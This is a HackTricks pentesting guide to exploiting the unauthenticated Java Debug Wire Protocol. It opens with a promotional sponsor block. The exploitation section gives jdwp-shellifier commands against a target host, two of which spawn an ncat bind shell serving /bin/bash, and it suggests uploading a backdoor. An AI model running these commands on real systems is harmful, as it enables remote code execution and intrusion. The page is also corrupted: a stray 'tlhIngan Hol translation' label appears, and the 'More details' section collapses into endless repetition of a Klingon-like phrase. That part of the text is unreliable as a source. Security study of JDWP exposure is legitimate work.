 # Pentesting JDWP - Java Debug Wire Protocol

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Exploiting

JDWP exploitation hinges on the **protocol's lack of authentication and encryption**. It's generally found on **port 8000**, but other ports are possible. The initial connection is made by sending a "JDWP-Handshake" to the target port. If a JDWP service is active, it responds with the same string, confirming its presence. This handshake acts as a fingerprinting method to identify JDWP services on the network.

In terms of process identification, searching for the string "jdwk" in Java processes can indicate an active JDWP session.

The go-to tool is [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). You can use it with different parameters:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
**tlhIngan Hol translation:**

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**This is a summary of [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Check it for further details.


1. **JDWP Overview**:
- 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ejDIv Hoch 'ej 'ej
